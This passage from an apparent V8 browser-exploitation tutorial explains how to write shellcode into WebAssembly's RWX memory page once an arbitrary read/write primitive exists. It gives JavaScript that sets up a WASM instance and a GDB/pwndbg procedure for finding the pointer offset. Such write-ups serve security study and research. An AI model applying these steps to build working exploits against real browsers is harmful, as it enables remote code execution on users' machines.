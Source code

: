 ### Overwriting WASM Memory

Arbitrary R/W is a powerful primitive, and it allows us to carry out the easiest of our 3 techniques mentioned at the beginning of this article. Here I'll describe the path for using it to write shellcode to a RWX page intended to run WebAssembly. Obviously, this starts with adding some WebAssembly to our script! As Syed Faraz Abrar points out in his post, you can use [WasmFiddle](https://wasdk.github.io/WasmFiddle/) and the "Code Buffer" option to get the start code for a WebAssembly module in JavaScript. The actual `wasm_code` bytecode doesn't matter (this example just returns 42).

```
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
```

From the testing I did, V8 will create a 0x1000 byte RWX memory region where it will store the machine code that gets generated. Unfortunately, the AddrOf primitive won't be good enough to get this address directly. Thankfully this address is stored in the structure of the WebAssembly instance we created. The one difficult part about this is that the offset regularly changes between versions of V8. However, you can quickly find it using GDB. The easiest way I have found to do this is by running a script like this:

```
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

%DebugPrint(f);

console.log("\nvmmap to get the RWX page address");
console.log("search -x [little_endian_address]");
console.log("Subtract the address of wasm_instance from the address of our pointer");

while(1){}

// gdb d8
// r wasm_offset_finder.js --allow-natives-syntax
// Ctrl+C
```

I use pwndbg, which has very helpful functions for finding the offset, but there are definitely more ways to do it. The basic steps are:

1. Find the RWX page starting memory address
2. Look for a pointer to this address (just past the address of the WASM instance)
3. Find the offset between this pointer and the WASM instance
